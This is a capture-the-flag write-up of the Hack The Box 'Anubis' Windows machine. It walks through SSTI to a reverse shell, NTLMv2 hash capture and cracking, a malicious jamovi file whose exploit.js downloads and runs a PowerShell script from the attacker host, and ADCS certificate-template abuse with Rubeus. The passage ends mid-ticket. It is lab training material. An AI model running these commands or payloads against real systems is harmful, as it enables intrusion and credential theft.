

# Anubis

This is the writeup of Anubis machine from Hack The Box (HTB).

# Port Scan

First, we’ve started with a full port scan on host.

```bash
─[eu-dedivip-1]─[10.10.14.93]─[th3g3ntl3m4n@parrot]─[~/htb/Anubis]
└──╼ [★]$ sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.129.96.114

PORT      STATE SERVICE
135/tcp   open  msrpc
443/tcp   open  https
445/tcp   open  microsoft-ds
593/tcp   open  http-rpc-epmap
49712/tcp open  unknown
```

Now, let’s perform a detailed versioned port scan on host.

```bash
─[us-dedivip-1]─[10.10.14.63]─[th3g3ntl3m4n@parrot]─[~/htb/Anubis]
└──╼ [★]$ sudo nmap -vv -A -sC -Pn -p 135,443,445,593,49712 -oA nmap/anubis 10.129.96.114

PORT      STATE SERVICE       REASON          VERSION                                                                                                                                         
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC                                                                                                                           
443/tcp   open  ssl/http      syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                                                                                         
|_http-title: Not Found                                                                                                                                                                       
| ssl-cert: Subject: commonName=www.windcorp.htb                                                                                                                                              
| Subject Alternative Name: DNS:www.windcorp.htb                                                                                                                                              
| Issuer: commonName=www.windcorp.htb                                                                                                                                                         
| Public Key type: rsa                                                                                                                                                                        
| Public Key bits: 2048                                                                                                                                                                       
| Signature Algorithm: sha256WithRSAEncryption                                                                                                                                                
| Not valid before: 2021-05-24T19:44:56                                                                                                                                                       
| Not valid after:  2031-05-24T19:54:56                                                                                                                                                       
| MD5:   e2e7 86ef 4095 9908 14c5 3347 cdcb 4167                                                                                                                                              
| SHA-1: 7fce 781f 883c a27e 1154 4502 1686 ee65 7551 0e2a

...

445/tcp   open  microsoft-ds? syn-ack ttl 127                                                                                                                                                 
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0                                                                                                             
49712/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC

...

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

As we can see, there is a host name on this host, so let’s write it down in our local hosts file.



Accessing the URL, we’ve got.


In order to get the web server’s banner, we perform a curl request.


Let’s start to enumerate the webserver performing a brute-force directory.

# Enumeration

## Samba

Let’s run a `crackmapexec` on the smb port 445.

```bash
─[us-dedivip-1]─[10.10.14.63]─[th3g3ntl3m4n@parrot]─[~/htb/Anubis]
└──╼ [★]$ crackmapexec smb windcorp.htb

SMB         10.129.96.114   445    EARTH            [*] Windows 10.0 Build 17763 x64 (name:EARTH) (domain:windcorp.htb) (signing:True) (SMBv1:False)
```

As we can see, the name of the machine is EARTH, so let’s write it in our local hosts file too.


## Web Server

Let’s perform a brute-force directories scan. On `gobuster`, we’ve pass the `asp/aspx` extensions type because the web server is a `Microsoft-IIS/10.0`.

```bash
─[us-dedivip-1]─[10.10.14.63]─[th3g3ntl3m4n@parrot]─[~/htb/Anubis]
└──╼ [★]$ gobuster dir -k -e -u "https://www.windcorp.htb/" -w "/opt/SecLists/Discovery/Web-Content/raft-large-directories-lowercase.txt" -t 50 -x .asp,.aspx,.txt -o gobuster/anubis_root

https://www.windcorp.htb/test.asp             (Status: 200) [Size: 230]
https://www.windcorp.htb/assets               (Status: 301) [Size: 155] [--> https://www.windcorp.htb/assets/]
https://www.windcorp.htb/forms                (Status: 301) [Size: 154] [--> https://www.windcorp.htb/forms/] 
https://www.windcorp.htb/services.asp         (Status: 200) [Size: 21308]                                     
https://www.windcorp.htb/preview.asp          (Status: 200) [Size: 3515]                                      
https://www.windcorp.htb/save.asp             (Status: 302) [Size: 157] [--> https://www.windcorp.htb/preview.asp]
https://www.windcorp.htb/readme.txt           (Status: 200) [Size: 215]                                           
https://www.windcorp.htb/changelog.txt        (Status: 200) [Size: 1386]
```

Now, let’s trying to send a message by contact form and see if we can trigger a Cross-Site Scripting (XSS).


After click on “Send Message” we’re redirecting to the [https://www.windcorp.htb/preview.asp](https://www.windcorp.htb/preview.asp)


But we haven’t connection back to our listener. Let’s try to change to HTTPS protocol.


Back to our netcat listener, we’ve got a connection.


We’ve confirmed that the page is vulnerable to XXS. Before we going ahead, let’s see if it could be a Server Side Template Injection (SSTI).

Knowing that is running in ASP language, let’s try.


And we’ve got a server error status 500.


Let’s try the following.


And we’ve got a SSTI. Checking if it is code executable.


And we’ve got our confirmation.


PS.: “=” is a short hand for `response.write` function on ASP

Now, let’s try to execute a `whoami` command.


Sending it to the backend.


Changing `whoami` to `hostname` command, we’ve got.


# Exploitation

Let’s try to get a reverse shell. Here we’ll use [nishang](https://github.com/samratashok/nishang) reverse shell.


Back to our netcat listener.

```bash
─[us-dedivip-1]─[10.10.14.63]─[th3g3ntl3m4n@parrot]─[~/htb/images/exploitation]
└──╼ [★]$ sudo nc -vnlp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.96.114.
Ncat: Connection from 10.129.96.114:62592.
whoami
nt authority\system
PS C:\windows\system32\inetsrv>
```

We don’t have a full interactive shell, so let’s improve it using the `rlwrap` command.

```bash
─[us-dedivip-1]─[10.10.14.63]─[th3g3ntl3m4n@parrot]─[~/htb/images/exploitation]
└──╼ [★]$ sudo rlwrap nc -vnlp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.96.114.
Ncat: Connection from 10.129.96.114:62594.

hostname
webserver01
clear
PS C:\windows\system32\inetsrv>
```

As we can see, we get a shell as nt authority\system what is weird.

```bash
whoami
nt authority\system
PS C:\windows\system32\inetsrv>
```

Running ipconfig we’ve check that we are on a container system.

```bash
ipconfig

Windows IP Configuration

Ethernet adapter vEthernet (Ethernet):

   Connection-specific DNS Suffix  . : .htb
   Link-local IPv6 Address . . . . . : fe80::c04a:8958:49c6:6b7c%32
   IPv4 Address. . . . . . . . . . . : 172.25.24.55
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Default Gateway . . . . . . . . . : 172.25.16.1
```

Performing a Get-Process command and filtering by Path of these process, we’ve got a one interesting that could be a Docker.


Searching files on Administrator directory.

```bash
ls -Force

    Directory: C:\Users

Mode                LastWriteTime         Length Name                                             
----                -------------         ------ ----                                             
d-----         4/9/2021  10:36 PM                Administrator                                    
d--hsl        9/15/2018   9:21 AM                All Users                                        
d-----        5/25/2021  12:05 PM                ContainerAdministrator                           
d-----         4/9/2021  10:37 PM                ContainerUser                                    
d-rh--         4/9/2021  10:37 PM                Default                                          
d--hsl        9/15/2018   9:21 AM                Default User                                     
d-r---         4/9/2021  10:36 PM                Public                                           
-a-hs-        9/15/2018   9:11 AM            174 desktop.ini
```

In Desktop folder, we’ve got a `req.txt` file.

```bash
ls -Force

    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name                                             
----                -------------         ------ ----                                             
-a-hs-         4/9/2021  10:36 PM            282 desktop.ini                                      
-a----        5/24/2021   9:36 PM            989 req.txt                                          

PS C:\Users\Administrator\Desktop>
```

Checking its content.

```bash
type req.txt
-----BEGIN CERTIFICATE REQUEST-----
MIICoDCCAYgCAQAwWzELMAkGA1UEBhMCQVUxEzARBgNVBAgMClNvbWUtU3RhdGUx
ETAPBgNVBAoMCFdpbmRDb3JwMSQwIgYDVQQDDBtzb2Z0d2FyZXBvcnRhbC53aW5k
Y29ycC5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCmm0r/hZHC
KsK/BD7OFdL2I9vF8oIeahMS9Lb9sTJEFCTHGxCdhRX+xtisRBvAAFEOuPUUBWKb
BEHIH2bhGEfCenhILl/9RRCuAKL0iuj2nQKrHQ1DzDEVuIkZnTakj3A+AhvTPntL
eEgNf5l33cbOcHIFm3C92/cf2IvjHhaJWb+4a/6PgTlcxBMne5OsR+4hc4YIhLnz
QMoVUqy7wI3VZ2tjSh6SiiPU4+Vg/nvx//YNyEas3mjA/DSZiczsqDvCNM24YZOq
qmVIxlmQCAK4Wso7HMwhaKlue3cu3PpFOv+IJ9alsNWt8xdTtVEipCZwWRPFvGFu
1x55Svs41Kd3AgMBAAGgADANBgkqhkiG9w0BAQsFAAOCAQEAa6x1wRGXcDBiTA+H
JzMHljabY5FyyToLUDAJI17zJLxGgVFUeVxdYe0br9L91is7muhQ8S9s2Ky1iy2P
WW5jit7McPZ68NrmbYwlvNWsF7pcZ7LYVG24V57sIdF/MzoR3DpqO5T/Dm9gNyOt
yKQnmhMIo41l1f2cfFfcqMjpXcwaHix7bClxVobWoll5v2+4XwTPaaNFhtby8A1F
F09NDSp8Z8JMyVGRx2FvGrJ39vIrjlMMKFj6M3GAmdvH+IO/D5B6JCEE3amuxU04
CIHwCI5C04T2KaCN4U6112PDIS0tOuZBj8gdYIsgBYsFDeDtp23g4JsR6SosEiso
4TlwpQ==
-----END CERTIFICATE REQUEST-----
PS C:\Users\Administrator\Desktop>
```

Let’s copy it to our local machine and decode it using `openssl` tool.

```bash
─[us-dedivip-1]─[10.10.14.63]─[th3g3ntl3m4n@parrot]─[~/htb/images/exploitation]                                                                                                         [5/62]
└──╼ [★]$ openssl req -in req.txt -noout -text                                                                                                                                                
Certificate Request:                                                                                                                                                                          
    Data:                                                                                                                                                                                     
        Version: 1 (0x0)                                                                                                                                                                      
        Subject: C = AU, ST = Some-State, O = WindCorp, CN = softwareportal.windcorp.htb                                                                                                      
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption 
                RSA Public-Key: (2048 bit)

...
```

As we can see, we’ve found a new host name in the domain. Let’s write it down in our hosts file.


We coudn’t access the new host name even write it in our hosts file.

We know we can ping the Gateway IP.

```bash
ping 172.25.16.1

Pinging 172.25.16.1 with 32 bytes of data:
Reply from 172.25.16.1: bytes=32 time<1ms TTL=128
Reply from 172.25.16.1: bytes=32 time<1ms TTL=128
Reply from 172.25.16.1: bytes=32 time<1ms TTL=128
Reply from 172.25.16.1: bytes=32 time<1ms TTL=128

Ping statistics for 172.25.16.1:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
PS C:\Windows\System32\drivers\etc>
```

So, let’s try to port forward some known port.

First we will download the chisel tool and copy a version of windows to the host.

Then we’ve started a server on our attack machine.


And a client on the victim machine.


We’ve to configure our proxychains.conf file in order to enable socks5 on our attack machine.

```bash
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4  127.0.0.1 9050
socks5 127.0.0.1 1080
```

Now let’s perform a port scan on that gateway host.

```bash
─[us-dedivip-1]─[10.10.14.63]─[th3g3ntl3m4n@parrot]─[~/htb/images/exploitation]
└──╼ [★]$ proxychains nmap -sT -Pn -n -p 80,443 172.25.16.1

ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-14 17:19 -04
|S-chain|-<>-127.0.0.1:1080-<><>-172.25.16.1:80-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-172.25.16.1:443-<--timeout
Nmap scan report for 172.25.16.1
Host is up (0.51s latency).

PORT    STATE  SERVICE
80/tcp  open   http
443/tcp closed https

Nmap done: 1 IP address (1 host up) scanned in 15.93 seconds
```

Trying to access [http://172.25.16.1](http://172.25.16.1) through our SOCKS5 proxy enabled, we’ve got nothing


So, let’s try to change our hosts file in order to point `softwareportal.windcorp.htb` to IP `172.25.16.1` and try access it through our SOCKS5 proxy.


Before we going to access the web page, let’s configure a pattern for our SOCKS5 proxy on ProxyFoxy extension.


And select on ProxyFoxy “Use Enabled Proxies By Patterns and Order”.

Accessing the page now, we’ve got.


Let’s run too a `crackmapexec` tool on this IP.

```bash
─[us-dedivip-1]─[10.10.14.63]─[th3g3ntl3m4n@parrot]─[~/htb/images/exploitation]
└──╼ [★]$ proxychains crackmapexec smb 172.25.16.1
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-172.25.16.1:445-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-172.25.16.1:445-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-172.25.16.1:135-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-172.25.16.1:445-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-172.25.16.1:445-<><>-OK
SMB         172.25.16.1     445    EARTH            [*] Windows 10.0 Build 17763 x64 (name:EARTH) (domain:windcorp.htb) (signing:True) (SMBv1:False)
```

We’ve got the same output.

Navigating on this page, we’ve got a bunch of links that do something. Copying one of those and paste here we can check.

```bash
http://softwareportal.windcorp.htb/install.asp?client=172.25.24.55&software=jamovi-1.6.16.0-win64.exe
```

And checking others, the client parameter is the same. So let’s try to check if we can connect back to our attack machine by changing client parameter pointing to our attack machine and see what is going on in wireshark.

Setting the parameter.

```bash
http://softwareportal.windcorp.htb/install.asp?client=10.10.14.63&software=jamovi-1.6.16.0-win64.exe
```

And checking the Wireshark.


We can see this installation try to use port 5985 which is WinRM protocol service. Let’s use responder tool to capture the user that wants to running this installation.

Executing and change the client parameter again.

```bash
─[us-dedivip-1]─[10.10.14.63]─[th3g3ntl3m4n@parrot]─[~/htb/images/exploitation]                                                                                                               
└──╼ [★]$ sudo responder -I tun0                                                                                                                                                              
                                         __                                                                                                                                                   
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.                                                                                                                                      
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|                                                                                                                                      
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|                                                                                                                                        
                   |__|                                                                                                                                                                       
                                                                                                                                                                                              
           NBT-NS, LLMNR & MDNS Responder 3.0.6.0                                                                                                                                             
                                                                                                                                                                                              
  Author: Laurent Gaffie (laurent.gaffie@gmail.com)                                                                                                                                           
  To kill this script hit CTRL-C

...

[+] Listening for events...

[WinRM] NTLMv2 Client   : 10.129.96.114
[WinRM] NTLMv2 Username : windcorp\localadmin
[WinRM] NTLMv2 Hash     : localadmin::windcorp:af442548f7114c41:52B3337AAE22405F643A5F11504226CB:010100000000000019A358E0ED21D8011D7195D96968F2410000000002000800450050003000300001001E00570049004E002D00500052004400460034003900390052004A00390059000400140045005000300030002E004C004F00430041004C0003003400570049004E002D00500052004400460034003900390052004A00390059002E0045005000300030002E004C004F00430041004C000500140045005000300030002E004C004F00430041004C0008003000300000000000000000000000002100000838886FAA84B57E1A751F75934732CB3D89478496A6D484578DA0A9EFB1F53B0A001000000000000000000000000000000000000900200048005400540050002F00310030002E00310030002E00310034002E00360033000000000000000000
```

As we can see, we’ve got a NTLMv2 hash. Let’s copy it to our machine. Now let’s crack it using `hashcat`.

```bash
─[us-dedivip-1]─[10.10.14.63]─[th3g3ntl3m4n@parrot]─[~/htb/images/exploitation]                                                                                                               
└──╼ [★]$ hashcat -m 5600 localadmin.hash /usr/share/wordlists/rockyou.txt

...

LOCALADMIN::windcorp:af442548f7114c41:52b3337aae22405f643a5f11504226cb:010100000000000019a358e0ed21d8011d7195d96968f2410000000002000800450050003000300001001e00570049004e002d00500052004400460034003900390052004a00390059000400140045005000300030002e004c004f00430041004c0003003400570049004e002d00500052004400460034003900390052004a00390059002e0045005000300030002e004c004f00430041004c000500140045005000300030002e004c004f00430041004c0008003000300000000000000000000000002100000838886faa84b57e1a751f75934732cb3d89478496a6d484578da0a9efb1f53b0a001000000000000000000000000000000000000900200048005400540050002f00310030002e00310030002e00310034002e00360033000000000000000000:Secret123
```

We were able to crack it.

| USER | PASSWORD |
| --- | --- |
| localadmin | Secret123 |

With the password, let’s execute `crackmapexec` again on `windcorp.htb`

```bash
─[us-dedivip-1]─[10.10.14.63]─[th3g3ntl3m4n@parrot]─[~/htb/images/exploitation]
└──╼ [★]$ crackmapexec smb 10.129.96.114 -u localadmin -p Secret123
SMB         10.129.96.114   445    EARTH            [*] Windows 10.0 Build 17763 x64 (name:EARTH) (domain:windcorp.htb) (signing:True) (SMBv1:False)
SMB         10.129.96.114   445    EARTH            [+] windcorp.htb\localadmin:Secret123
```

We can log into `SMB` service. Let’s try `crackmapexec` with `WinRM` service.

```bash
─[us-dedivip-1]─[10.10.14.63]─[th3g3ntl3m4n@parrot]─[~/htb/images/exploitation]
└──╼ [★]$ crackmapexec winrm 10.129.96.114 -u localadmin -p Secret123
```

We weren’t able to connect on `WinRM`. 

Let’s try to list `SMB` shares for this user.

```bash
─[us-dedivip-1]─[10.10.14.63]─[th3g3ntl3m4n@parrot]─[~/htb/images/exploitation]
└──╼ [★]$ crackmapexec smb 10.129.96.114 -u localadmin -p Secret123 --shares
SMB         10.129.96.114   445    EARTH            [*] Windows 10.0 Build 17763 x64 (name:EARTH) (domain:windcorp.htb) (signing:True) (SMBv1:False)
SMB         10.129.96.114   445    EARTH            [+] windcorp.htb\localadmin:Secret123 
SMB         10.129.96.114   445    EARTH            [+] Enumerated shares
SMB         10.129.96.114   445    EARTH            Share           Permissions     Remark
SMB         10.129.96.114   445    EARTH            -----           -----------     ------
SMB         10.129.96.114   445    EARTH            ADMIN$                          Remote Admin
SMB         10.129.96.114   445    EARTH            C$                              Default share
SMB         10.129.96.114   445    EARTH            CertEnroll      READ            Active Directory Certificate Services share
SMB         10.129.96.114   445    EARTH            IPC$            READ            Remote IPC
SMB         10.129.96.114   445    EARTH            NETLOGON        READ            Logon server share 
SMB         10.129.96.114   445    EARTH            Shared          READ            
SMB         10.129.96.114   445    EARTH            SYSVOL          READ            Logon server share
```

Let’s connect to `Shared` share.

```bash
─[us-dedivip-1]─[10.10.14.63]─[th3g3ntl3m4n@parrot]─[~/htb/images/exploitation]
└──╼ [★]$ smbclient //10.129.96.114/Shared -U localadmin
Enter WORKGROUP\localadmin's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Apr 28 11:06:06 2021
  ..                                  D        0  Wed Apr 28 11:06:06 2021
  Documents                           D        0  Tue Apr 27 00:09:25 2021
  Software                            D        0  Thu Jul 22 14:14:16 2021

                9034239 blocks of size 4096. 3022338 blocks available
```

We have to directories in this share. Let’s download the Jamovi application in Software directory.

```bash
mb: \> cd Software
smb: \Software\> dir
  .                                   D        0  Thu Jul 22 14:14:16 2021
  ..                                  D        0  Thu Jul 22 14:14:16 2021
  7z1900-x64.exe                      N  1447178  Mon Apr 26 17:10:08 2021
  jamovi-1.6.16.0-win64.exe           N 247215343  Mon Apr 26 17:03:30 2021
  VNC-Viewer-6.20.529-Windows.exe      N 10559784  Mon Apr 26 17:09:53 2021

                9034239 blocks of size 4096. 3022338 blocks available
smb: \Software\> get jamovi-1.6.16.0-win64.exe
getting file \Software\jamovi-1.6.16.0-win64.exe of size 247215343 as jamovi-1.6.16.0-win64.exe (2975,3 KiloBytes/sec) (average 2975,3 KiloBytes/sec)
```

Checking the Documents directory we have a Analytics directory which contains.

```bash
smb: \Documents\Analytics\> dir
  .                                   D        0  Tue Apr 27 14:40:20 2021
  ..                                  D        0  Tue Apr 27 14:40:20 2021
  Big 5.omv                           A     6455  Tue Apr 27 14:39:20 2021
  Bugs.omv                            A     2897  Tue Apr 27 14:39:55 2021
  Tooth Growth.omv                    A     2142  Tue Apr 27 14:40:20 2021
  Whatif.omv                          A     2841  Mon Feb 14 18:21:57 2022

                9034239 blocks of size 4096. 3012798 blocks available
```

The `.omv` files corresponds to the `jamovi` tool that we’ve downloaded previously.

Searching for jamovi exploit on Internet, we’ve found the [https://github.com/theart42/cves/blob/master/CVE-2021-28079/CVE-2021-28079.md](https://github.com/theart42/cves/blob/master/CVE-2021-28079/CVE-2021-28079.md).

Open Jamovi in a VM Windows, we’ve click and try to “Transform” a header column. There we’ve insert our XSS payload as following and save the file as test.omv.


Closing application and opening the file saved we’ve got.


Our Proof of Concept (PoC) works.

Now, let’s try to get code execution through this vulnerability. Let’s try the following.


Clicking on Transform on our selected column, we’ve triggered our payload.


Now, let’s try to gained access to the machine with our payload.


Downloading this file to our attack machine, we unziped it and verify.


PS.: If we don’t have a Windows machine on hand, we could just download a `.omv` file, unzip it, change one of the headers existing by our payload and zip all files again like `zip -r payload.omv *`

Now let’s rename our `.omv` to `Whatif.omv` and upload it to SMB share and override the `Whatif.omv` that is there.


Let’s see if someone will access our malicious `.omv` file. Let’s create our `exploit.js`

```bash
require('child_process').exec("powershell IEX((New-Object Net.WebClient).downloadString('http://10.10.14.63/shell.ps1'))")
```

Now we serve a python HTTP server for our `exploit.js` and set up a netcat listener.


Checking back our netcat listener.

```bash
─[us-dedivip-1]─[10.10.14.63]─[th3g3ntl3m4n@parrot]─[~/htb/images/exploitation]
└──╼ [★]$ sudo rlwrap nc -vnlp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Connection from 10.129.96.114.
Ncat: Connection from 10.129.96.114:56355.

whoami
windcorp\diegocruz
PS C:\Windows\system32>
```

# Privilege Escalation

For privilege escalation, let’s use the Sharp Collections repository on GitHub ([https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)). We’ll use the tool `Certify.exe`, `PowerView.ps1`, `Rubeus.exe` and `ADCS.ps1`.

After upload all the files needed to host, we’ve execute `Certify.exe`

```bash
PS C:\ProgramData> .\Certify.exe find /vulnerable /currentuser

[+] No Vulnerable Certificates Templates found!                                                                                                                                               
                                                                                                                                                                                              
    CA Name                               : earth.windcorp.htb\windcorp-CA                                                                                                                    
    Template Name                         : Web                                                                                                                                               
    Schema Version                        : 2                                                                                                                                                 
    Validity Period                       : 10 years                                                                                                                                          
    Renewal Period                        : 6 weeks                                                                                                                                           
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT                                                                                                                          
    mspki-enrollment-flag                 : PUBLISH_TO_DS                                                                                                                                     
    Authorized Signatures Required        : 0                                                                                                                                                 
    pkiextendedkeyusage                   : Server Authentication                                                                                                                             
    mspki-certificate-application-policy  : Server Authentication                                                                                                                             
    Permissions                                                                                                                                                                               
      Enrollment Permissions                                                                                                                                                                  
        Enrollment Rights           : WINDCORP\Domain Admins        S-1-5-21-3510634497-171945951-3071966075-512                                                                              
                                      WINDCORP\Enterprise Admins    S-1-5-21-3510634497-171945951-3071966075-519
        All Extended Rights         : WINDCORP\webdevelopers        S-1-5-21-3510634497-171945951-3071966075-3290
      Object Control Permissions
        Owner                       : WINDCORP\Administrator        S-1-5-21-3510634497-171945951-3071966075-500
        Full Control Principals     : WINDCORP\webdevelopers        S-1-5-21-3510634497-171945951-3071966075-3290
        WriteOwner Principals       : WINDCORP\Administrator        S-1-5-21-3510634497-171945951-3071966075-500
                                      WINDCORP\Domain Admins        S-1-5-21-3510634497-171945951-3071966075-512
                                      WINDCORP\Enterprise Admins    S-1-5-21-3510634497-171945951-3071966075-519
                                      WINDCORP\webdevelopers        S-1-5-21-3510634497-171945951-3071966075-3290
        WriteDacl Principals        : WINDCORP\Administrator        S-1-5-21-3510634497-171945951-3071966075-500
                                      WINDCORP\Domain Admins        S-1-5-21-3510634497-171945951-3071966075-512
                                      WINDCORP\Enterprise Admins    S-1-5-21-3510634497-171945951-3071966075-519
                                      WINDCORP\webdevelopers        S-1-5-21-3510634497-171945951-3071966075-3290
        WriteProperty Principals    : WINDCORP\Administrator        S-1-5-21-3510634497-171945951-3071966075-500
                                      WINDCORP\Domain Admins        S-1-5-21-3510634497-171945951-3071966075-512
                                      WINDCORP\Enterprise Admins    S-1-5-21-3510634497-171945951-3071966075-519
                                      WINDCORP\webdevelopers        S-1-5-21-3510634497-171945951-3071966075-3290
```

### Manual way

Both fields `pkiextendedkeyusage: Server Authentication` and `mspki-certificate-application-policy: Server Authentication` allow Smart Cards and we have full control of `WriteDacl Principals` and `WriteProperty Principals` because the user we control, `WINDCORP\diegocruz` is in the group `WINDCORP\webdevelopers`. So, we can do manually this `$EKUs=@("1.3.6.1.5.5.7.3.2", "1.3.6.1.4.1.311.20.2.2")` and `Set-ADObject "CN=Web,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=WINDCORP,DC=htb" -Add @{pKIExtendedKeyUsage=$EKUs;"msPKI-Certificate-Application-Policy"=$EKUs}`.

Running `Certify.exe find` we’ll see that the fields `pkiextendedkeyusage` and `mspki-certificate-application-policy` will contain `Client Authentication`, `Server Authentication` (that there was be) and `Smart Card Logon` 

Now, let’s use `ADCS.ps1` in order to get a certificate with the identity of user Administrator using a Template Name Web, the same of the one we’ve been listed above.

```bash
Get-SmartCardCertificate -Identity Administrator -TemplateName Web -NoSmartCard -Verbose
```

It doesn’t work because there is a error when the box was created. So, let’s change the `ADCS.ps1` script on line `929` as following.


Let’s repeat the command `Get-SmartCardCertificate` with the new `ADCS` script.

```bash
PS C:\ProgramData> Get-SmartCardCertificate -Identity Administrator -TemplateName Web -NoSmartCard -Verbose
```

Checking if it works.

```bash
PS C:\ProgramData> Get-ChildItem cert:\CurrentUser\My -Recurse

   PSParentPath: Microsoft.PowerShell.Security\Certificate::CurrentUser\My

Thumbprint                                Subject                                                                      
----------                                -------                                                                      
F376172687C80B94718B53FAB32AB8829F77D60C
```

Let’s pass this certificate (above in red) to our `Rubeus` tool.

```bash
PS C:\ProgramData> .\Rubeus.exe asktgt /user:Administrator /certificate:F376172687C80B94718B53FAB32AB8829F77D60C /getcredentials

______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject:
[*] Building AS-REQ (w/ PKINIT preauth) for: 'windcorp.htb\Administrator'
[*] Using domain controller: fe80::4d21:ef2a:b219:72e5%12:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIF1DCCBdCgAwIBBaEDAgEWooIE5DCCBOBhggTcMIIE2KADAgEFoQ4bDFdJTkRDT1JQLkhUQqIhMB+g
      AwIBAqEYMBYbBmtyYnRndBsMd2luZGNvcnAuaHRio4IEnDCCBJigAwIBEqEDAgECooIEigSCBIZKhprq
      U46zKt7Fay6sPj7HoR4eYJrwnZBpoYLnqAiIUdexA4qcRkG8LQSutehMBzUKndSXpVzPuIoGqbhujGjX
      TFbWKnttvO2ddIMD93lvp5yGtjzUUVZqthjd9Qp5+kTIGbcypF/+7l5TvcViue6w0WQwd4YAXzx/QRac
      tYY8vhTl0l6S3CIwU0aMT63hLKxkSHxofOoTul2f382ZEM6mExxgOGyXU/TfzF0dIoQdloBtHXp/5Ssl
      NpvWYWTpwnOUU/Hjc1jaYPUwDi3gKXA2sSy0iS9G3MlvIOVIalHwmLmQ6LB7T/7cBwnF1H38m4P4UM9j
      mTOfR1ZhedTns/zr+tj/DxNrDz8N5PY1Jlvp2aok5cfjEvecqV+9Yls2kn1CBX2wlq0r1T0s8G+lNlzZ
      BS7isupB9hGZXTKwmDMRi4zbI1wTYqBh1v/xaIXHtYsgegHA/jsX/yLUS51mILCDXJ854Z9727u1hZDS
      TUDsQsKXdLOZxh30/AxqUZHAc6sIlRliiBBVvSJ9L5HiTW/dpsIY5uSFElSlsmehjEizPNxdz5pCPlGT
      czHZm29UxZYUQht4w/mBh789OEQjhQPfWUMmFhER7k6vzWVwZv0a0YIF8uBAIAH3iVyAFvNf4RIzJcm/
      f6BHVngKTQFtUAQwzaa6HxzEnUuIOL1S8ZXB9vqLk+baDfzrsq/3BX8zQCBpZ93cC84Lnfelhh950/HP
      4vJnTsTWSoNBRkWGn6m/l4HINlQLC5FfEECUMx8Dk04bebvOmf4xPUS7oQsbBxbPBRkaelnVhyoxB9Fr
      DaVjdMcD4iu/8sP0RhPvRPlkrH/y5pLKW/ocyNliUIOWGgYotMKrxjZahZTmy0fqY1dEmFj+gnatW0p8
      xgH4sHIbr0lmUzBDPgl6wN8k/7VrLHXCYPHIx8WRZyocF0tJcBe9+Lbo4CB/AtFK6cevcgbFRwo83sSO
      PC8WjBVThvPksqFRQUun8QITJ9/Bko8ToXO8HspGaMKibrdO3FdY9wfbfn/QPDoH/mTH9dy4BDaGwtnN
      Vp/T3/oQrOqTiozLbXsCmfvLKaFAACseGBdoytLBD8tkgyXPDkibEqK6jmHUBnigEXCcNCe3S7jy1cEJ
      d3W7+rOhPJOOV58aMnIrK2sFp3yYfn/SU2NEp6BjQc5DRlmDQuww3aATc0NV4T8f4MF+EJY6hojFR3pR
      QocDXHy/qaBJaV0yHETtZob+Tt5+M1CbbL2fIJzhwylpvt73A4Mbj0QZlJdpVQdrfUqCkOJ8oilFRWtE
      QuOtUn/1nSphoJKANMv0hg1C4GfRY4yb8O9UjxaKgZZWQz9/O4o9SJovgilwcZ7VE9GHkucYFT7E6Lbu
      aFOyT3XqXD5GBhnFe9FdOBS53a9rlPD8QvlJIq+raRa9wig6YyzOxWiZT0nnvfvELrPNMHmwu3SkHAxA
      3zcUpFf1DBVyKWkEpH4Wkhz14IZPVEBs8Q26Iqmo0Whw1G1IzErj7znthwWsdlCMKGpGD0ixNbo2kQUO
      bgnJKNiHaVJFe4uzcmujgdswgdigAwIBAKKB0ASBzX2ByjCBx6CBxDCBwTCBvqAbMBmgAwIBF6ESBBBj
      ZKGdVqpoWtcJek2rNgBuoQ4bDFdJTkRDT1JQLkhUQqIaMBigAwIBAaERMA8bDUFkbWluaXN0cmF0b3Kj
